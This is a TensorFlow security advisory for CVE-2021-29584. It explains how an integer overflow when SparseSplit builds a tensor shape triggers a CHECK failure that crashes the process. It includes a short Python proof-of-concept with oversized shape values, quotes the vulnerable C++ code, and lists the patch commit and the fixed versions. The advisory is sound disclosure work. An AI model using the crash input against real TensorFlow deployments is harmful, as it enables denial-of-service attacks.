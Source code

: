 ## TFSA-2021-071: `CHECK`-fail due to integer overflow

### CVE Number
CVE-2021-29584

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
caused by an integer overflow in constructing a new tensor shape:

```python
import tensorflow as tf

input_layer = 2**60-1
sparse_data = tf.raw_ops.SparseSplit(
    split_dim=1,
    indices=[(0, 0), (0, 1), (0, 2),
    (4, 3), (5, 0), (5, 1)],
    values=[1.0, 1.0, 1.0, 1.0, 1.0, 1.0],
    shape=(input_layer, input_layer),
    num_split=2,
    name=None
    )
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/0908c2f2397c099338b901b067f6495a5b96760b/tensorflow/core/kernels/sparse_split_op.cc#L66-L70)
builds a dense shape without checking that the dimensions would not result in
overflow:

```cc
sparse::SparseTensor sparse_tensor;
OP_REQUIRES_OK(context,
               sparse::SparseTensor::Create(
                 input_indices, input_values,
                 TensorShape(input_shape.vec<int64>()), &sparse_tensor));
```

The [`TensorShape`
constructor](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = Status::OK();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[4c0ee937c0f61c4fc5f5d32d9bb4c67428012a60](https://github.com/tensorflow/tensorflow/commit/4c0ee937c0f61c4fc5f5d32d9bb4c67428012a60).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by researchers from University of Virginia
and University of California, Santa Barbara.
